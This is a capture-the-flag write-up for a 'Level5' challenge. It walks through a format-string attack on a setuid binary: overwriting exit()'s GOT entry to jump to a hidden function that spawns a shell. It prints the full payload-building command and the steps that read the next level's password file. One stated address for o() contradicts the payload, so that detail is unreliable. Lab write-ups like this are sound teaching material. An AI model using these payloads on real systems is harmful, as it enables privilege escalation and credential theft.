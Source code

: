 # Level5

## Context & Explanation
 * There is one file in our home, ```level5```, belonging to ```level6``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* `main()` only calls `n()`
	* `n()` makes use of `fgets()` with an on stack array of size `0x200`
	* It then calls printf with our input as the format string
	* And after printf the function calls `exit(1)`
```dump
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```
	* Finally there's the `o()` function at address `0x080484a4` which is never called, but it possess a call to `system("/bin/sh")` and it will allow us to get the flag.

 * We have the appropriate setup for a [Format-String attack](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf), because printf makes use of a buffer user filled:
    * In `exit()` want to modify the value behind `ds:0x8049838`, which is used for the first jump, so it equals the adress of `o()` : `0x804988c`.
	* On the stack there is 3 argument we need to pass before we can read our own format string, so we will need 3 %x.
	* So our format should look this way:
		* [1st jump address][%08x]*3[filler text to write in total `0x804988c` octets][%n]
		* Like for the previous exercise, we can use width modifier to simplfy the writting.
	* result: [\x38\x98\x04\x08][%08x%08x%0134513808x][%n]

## Resolution

	1. We generate our future format string using this command:
```sh
python -c "print(
'\x38' + '\x98' + '\x04' + '\x08' +
'%08x' + '%08x' +
'%0' + str(134513808) + 'x' +
'%n')" > /var/crash/injection_lvl5
```
	2. We launch `level5` by making use of cat with our custom file, with `-` as a second argument, so once the file has been read, cat will transmit stdin :
```sh
cat /var/crash/injection_lvl5 - | ./level5
```
	3. Inside the newly opened shell session we now only have to execute these commands:
```sh
cd ..
cd level6
cat .pass
```
